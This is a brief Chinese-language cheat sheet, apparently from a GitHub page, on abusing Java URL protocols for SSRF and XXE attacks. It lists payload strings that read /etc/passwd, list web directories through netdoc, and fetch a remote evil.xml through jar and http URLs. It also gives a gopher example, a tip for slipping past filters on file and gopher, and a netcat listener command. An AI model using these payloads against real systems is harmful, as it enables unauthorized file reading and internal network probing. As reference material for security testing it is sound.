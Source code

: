 ## java协议
JAVA默认提供了对file,ftp,gopher,http,https,jar,mailto,netdoc协议的支持。

### file(ssrf、xxe)：
 file:///etc/passwd

### netdoc(ssrf、xxe)：
知道文件名和文件路径，很简单我们只要知道文件路径然后利用我们的 netdoc 去列目录就能知道文件名了
netdoc:///var/www/html/
不常见

>ps:过滤了file、gopher可使用netdoc代替

### jar(ssrf、xxe):
jar:http://localhost:9999/jar.zip!/1.php

### http(ssrf、xxe):
http://url/file.ext
http://example.com/evil.xml

### gopher(ssrf、xxe):
gopher://ip:port/xxx

>监听：nc -vv -l -p port
